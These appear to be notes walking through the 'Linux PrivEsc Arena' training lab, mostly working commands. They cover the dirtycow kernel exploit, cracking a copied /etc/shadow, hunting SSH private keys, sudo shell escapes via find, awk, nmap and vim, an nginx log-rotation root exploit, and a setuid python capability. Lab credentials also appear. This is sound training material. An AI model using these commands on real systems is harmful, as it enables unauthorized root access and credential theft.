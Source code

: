 > Linux PrivEsc Arena | TheCyberMentor

## SSH Credentails 

TCM:Hacker123

Running linux-exploit-suggester we got `dirtycow` exploit.

# Kernel Exploits

gcc -pthread /home/user/tools/dirtycow/c0w.c -o cow
./c0w

Wait for some time

```
passwd
id => And we are root
```

# Weak File Permissions

ls -la /etc/shadow

```
-rw-rw-r-- 1 root shadow 809 Jun 17 23:33 /etc/shadow
```

Copy the /etc/passwd and /etc/shadow to our local machine and `unshadow password.txt shadow.txt > unshadow.txt`

hashcat -m 1800 unshadowed.txt rockyou.txt -O

# SSH keys

Search for SSH keys 

find / -name id_rsa 2>/dev/null
find / -name authorized_keys 2>/dev/null

```
/backups/supersecretkeys/id_rsa
```

# Privilege Escalation

sudo -l

```
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
We can choose any of these to get access.

a. sudo find /bin -name nano -exec /bin/sh \;
b. sudo awk 'BEGIN {system("/bin/sh")}'
c. echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
d. sudo vim -c '!sh

# Symlinks

## Detection

dpkg -l | grep nginx

`ii  nginx-common                        1.6.2-5+deb8u2~bpo70+1       small, powerful, scalable web/proxy server - common files
ii  nginx-full                          1.6.2-5+deb8u2~bpo70+1       nginx web/proxy server (standard version)
`

Installed nginx version is below 1.6.2-5+deb8u3.

## Exploit

su -l www-data
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log

The log is waiting to be rotated.

So open another session and login as root.

And `invoke-rc.d nginx rotate >/dev/null 2>&1` to rotate the log.

And we have the exploit!!

# Capabilities


## Detection

getcap -r / 2>/dev/null

`/usr/bin/python2.6 = cap_setuid+ep`

## Exploit

/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'

And we are root!